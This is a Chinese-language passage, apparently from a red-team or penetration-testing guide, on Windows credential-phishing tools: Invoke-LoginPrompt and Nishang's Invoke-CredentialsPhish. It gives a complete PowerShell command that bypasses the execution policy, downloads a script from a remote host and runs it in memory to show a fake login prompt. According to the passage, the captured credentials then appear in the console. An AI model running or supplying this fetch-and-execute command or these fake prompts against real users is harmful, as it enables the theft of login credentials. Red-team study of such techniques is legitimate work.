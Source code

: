 ### Invoke-LoginPrompt

这个脚本的功能和使用方法与 CredsLeaker 类似，下载地址：

> [https://github.com/enigma0x3/Invoke-LoginPrompt](https://github.com/enigma0x3/Invoke-LoginPrompt)

凭据将显示在控制台中：

> powershell.exe -ep Bypass -c IEX ((New-Object Net.WebClient).DownloadString('http://10.0.0.13/tmp/Invoke-LoginPrompt.ps1')); Invoke-LoginPrompt

![图片](assets/1710388646-d65cb1a5b02a483c349d04d80e7e4658.webp)

### Invoke-CredentialsPhish

这个是 Nishang 框架中的一个脚本，可用于创建虚假输入提示符，来收集窗口凭据：

![图片](assets/1710388646-1dac98f70a8ece635c0bec7c6382bd53.webp)
